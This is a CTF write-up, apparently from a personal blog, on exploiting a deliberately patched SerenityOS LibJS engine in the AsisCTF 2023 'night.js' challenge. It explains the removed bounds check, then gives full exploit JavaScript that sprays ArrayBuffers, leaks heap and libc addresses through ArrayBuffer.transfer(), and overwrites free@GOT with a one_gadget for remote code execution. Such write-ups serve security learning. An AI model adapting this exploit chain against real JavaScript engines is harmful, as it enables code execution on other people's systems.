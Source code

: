 ```yaml
---
layout: post
title:  "[AsisCTF Quals 2023] Attacking Javascript Engine libjs SerenityOS"
date:   2023-09-27
categories: ctf pwn pwnjs
description: This is a writeup for night.js pwn challenge
tags: tip-binary ctf
---
```


# Background

Asis CTF 2023 Quals has ended. I solved 3 out of 4 challenges, including `night.js`. Unfortunately, I solved `night.js` after the event had ended and read a write-up on Discord ;). This challenge helped me a lot to learn more about pwning the JavaScript interpreter. It's a JavaScript interpreter pwn challenge, which means we are attacking the JS binary/interpreter, not a JS web application.

# Challenge Analysis

We were given several filess, including Dockerfile, challenge patch, commit information, and more. After analyzing the challenge patch, I discovered that the patch will disables the `assertion` and `from_size` checks, allowing us to call the function `copy_data_block_bytes` with smaller size from the destination array. this can lead to arbitrary read or write.

{% highlight cpp %}
diff --git a/./Userland/Libraries/LibJS/Runtime/ArrayBuffer.cpp b/../patched-serenity/Userland/Libraries/LibJS/Runtime/ArrayBuffer.cpp
index 2f65f7b6ca..ee9a1ca00f 100644
--- a/./Userland/Libraries/LibJS/Runtime/ArrayBuffer.cpp
+++ b/../patched-serenity/Userland/Libraries/LibJS/Runtime/ArrayBuffer.cpp
@@ -80,10 +80,10 @@ void copy_data_block_bytes(ByteBuffer& to_block, u64 to_index, ByteBuffer const&
     VERIFY(from_index + count <= from_size);
 
     // 4. Let toSize be the number of bytes in toBlock.
-    auto to_size = to_block.size();
+    // auto to_size = to_block.size();
 
     // 5. Assert: toIndex + count ≤ toSize.
-    VERIFY(to_index + count <= to_size);
+    // VERIFY(to_index + count <= to_size);
 
     // 6. Repeat, while count > 0,
     while (count > 0) {
@@ -215,6 +215,7 @@ ThrowCompletionOr<ArrayBuffer*> array_buffer_copy_and_detach(VM& vm, ArrayBuffer
 
     // 10. Let copyLength be min(newByteLength, arrayBuffer.[[ArrayBufferByteLength]]).
     auto copy_length = min(new_byte_length, array_buffer.byte_length());
+    if(array_buffer.byte_length() > 0x100) copy_length = array_buffer.byte_length();
 
     // 11. Let fromBlock be arrayBuffer.[[ArrayBufferData]].
     // 12. Let toBlock be newBuffer.[[ArrayBufferData]].

{% endhighlight %}
 
With this information, we can trigger the vulnerability by using `ArrayBuffer.prototype.transfer()`,
which allow us to copy the contents of the array to a new array. In this case, we can create several array buffer, then modifying the appropriate array with a size of 0x100 then call `.transfer` to trigger the vulnerability.

{% highlight js %}

buffer_array = []
spary_array = []

// spraying the array buffer 0x50 times with 0x120 
for(var i = 0; i < 0x50; i++){
    buffer_array.push(new ArrayBuffer(0x120))
}

x = buffer_array[0x2f]
view = new BigUint64Array(x)

console.log(view)

// modify ArrayBuffer object 
view[0] = 0xdeadbeef0n
view[1] = 0xdeadbeef1n
view[2] = 0xdeadbeef2n
view[3] = 0xdeadbeef3n
view[4] = 0x100n // modify the size
view[5] = 1n // set to 1
view[6] = 1n // set to 1

{% endhighlight %}

now the value at `buffer_array[0x2f]` will stored at the memory location `array_address+0x0040` 

<img src="/images/pwnjs/1.png"/>
Yellow represents the address of the array, blue represents the value stored in the array. When we trigger `ArrayBuffer.prototype.transfer()`, the size of the copied array will 0x100.

{% highlight js %}

// trigger the vulnerability by allocating the new Array with smaller size
buffer2 = x.transfer(0x10)

{% endhighlight %}

The new array will be created with size `0x100`, which is equivalent to `256`. and this array will contains memory leaks.

<img src="/images/pwnjs/2.png">

We can use the memory leak to obtain `__libc_system` and the Array address. Our plan is to overwrite the `free@GOT` with the address of the `one_gadget`.

<img src="/images/pwnjs/3.png"> 

Before that, we can perform array spray-ing, which can be useful for performing a GOT overwrite.

{% highlight js %}

// spraying array
for(var i = 0; i <= 0x30; i++){
    spray_array.push(new ArrayBuffer(0x160))
}

// spraying array with string that can be useful to get shell or executing file
for(var i = 0; i <= 0xff; i++){
    v = new BigUint64Array(spray_array[i])
    // v[0] = 4702111234474983745n // /bin/sh 
    v[0] = 16653634245063215n
}

{% endhighlight %}

Now we can initialize a new array to read the stored memory inside `buffer2` which is the array with small size but has a size of `0x100`. 

{% highlight js %}

leak = new BigUint64Array(buffer2)
console.log(leak)

{% endhighlight %}

Not only read. We can also performing GOT overwrite by inserting the `free@got` address into `leak[16]`. Then create a new `big uint64` array using our `spray_array[0]` finally, we can modify `free@got` using the first index of the new `big uint64` array.

{% highlight js %}

leak[16] = __liblagomjs_freegot
v = new BigUint64Array(spray_array[0])
v[0] = __libc_system

{% endhighlight %}

We are overwriting `free@got` because the `liblagom-js.so.0.0.0` library lacks RELRO protection. Allowing us to freely overwrite the values in the GOT addresses within this library. Additionally, `free()` is used extensively throughout the binary.

<img src="/images/pwnjs/5.png"/>

Now, we can overwrite the `free@got` with `__libc_system`. In this case, I use `one_gadget` to simplify the process. Here is my full exploit code to achieve remote code execution (RCE). 

{% highlight js %}

function addrprnt(address){
    if (address === null || address === undefined){
        return 
    }else{
        return "0x" + address.toString(16);
    }
}

function edit_chunk_size(view, size){
    view[0] = 4702111234474983745n;
    view[1] = 4702111234474983745n;
    view[2] = 4702111234474983745n;
    view[3] = 4702111234474983745n;
    view[4] = size;
    view[5] = 1n;
    view[6] = 1n;
}

function memdump(array){
    // dumping buffer
    for(var i =0; i <= array.byteLength; i++){
        console.log("[+] dumping array["+ i +"] = " + addrprnt(array[i]))
    }
}



buffer_array = []
spray_array = []

// spraying the array buffer 0x50 times with 0x120 
for(var i = 0; i < 0x50; i++){
    buffer_array.push(new ArrayBuffer(0x120))
}

x = buffer_array[0x2f]
view = new BigUint64Array(x)

console.log(view)

// modify ArrayBuffer object 
view[0] = 0xdeadbeef0n
view[1] = 0xdeadbeef1n
view[2] = 0xdeadbeef2n
view[3] = 0xdeadbeef3n
view[4] = 0x100n // modify the size
view[5] = 1n // set to 1
view[6] = 1n // set to 1

// trigger the copied byte to buffer2 with smaller length of memory
buffer2 = x.transfer(0x10)
console.log(buffer2.byteLength)
console.log(buffer2)


// spraying array
for(var i = 0; i <= 0x30; i++){
    spray_array.push(new ArrayBuffer(0x160))
}

// spraying array 
for(var i = 0; i <= 0xff; i++){
    v = new BigUint64Array(spray_array[i])
    // v[0] = 4702111234474983745n // /bin/sh 
    v[0] = 16653634245063215n
}

// getting info leak
leak = new BigUint64Array(buffer2)
console.log(leak)

/* offset      liblagom-js.so.0.0.0 [free@got]= 0x00000069b420 */

leak_arraybuffer = leak[8]
leak_heapaddress = leak[10]
leak_strbinsh = leak[16]
__libc_baseaddress = leak_arraybuffer - 0xc19da8n
__libc_system = __libc_baseaddress + 0x50d60n
__libc_binsh = __libc_baseaddress + 0x1d8698n
__libc_puts = __libc_baseaddress + 0x80ed0n
__liblagomjs_baseaddress = leak_arraybuffer - 0x67dda8n
__liblagomjs_freegot = __liblagomjs_baseaddress + 0x00000069b420n
oneshot = __libc_baseaddress + 0xebcf8n

__libc_ret = __libc_baseaddress + 0x00000000000f872en
__libc_pop_rdi = __libc_baseaddress + 0x000000000002a3e5n

// memory leak
console.log('[+] address of ArrayBuffer: ' + addrprnt(leak_arraybuffer))
console.log('[+] address of base address of libc.so.6: ' + addrprnt(__libc_baseaddress))
console.log('[+] address of base address of liblagom-js.so.0.0.0: ' + addrprnt(__liblagomjs_baseaddress))
console.log('[+] address of free@got of liblagom-js.so.0.0.0: ' + addrprnt(__liblagomjs_freegot))
console.log('[+] address of __libc_system of libc.so.6: ' + addrprnt(__libc_system))
console.log('[+] address of heap: ' + addrprnt(leak_heapaddress))
console.log('[+] address of /bin/sh: ' + addrprnt(leak_strbinsh))

// gaining arbitrary write 
leak[16] = __liblagomjs_freegot
v = new BigUint64Array(spray_array[0])
console.log(v)
v[0] = oneshot

{% endhighlight %}

Run the exploit and we got RCE


<img src="/images/pwnjs/4.png"/>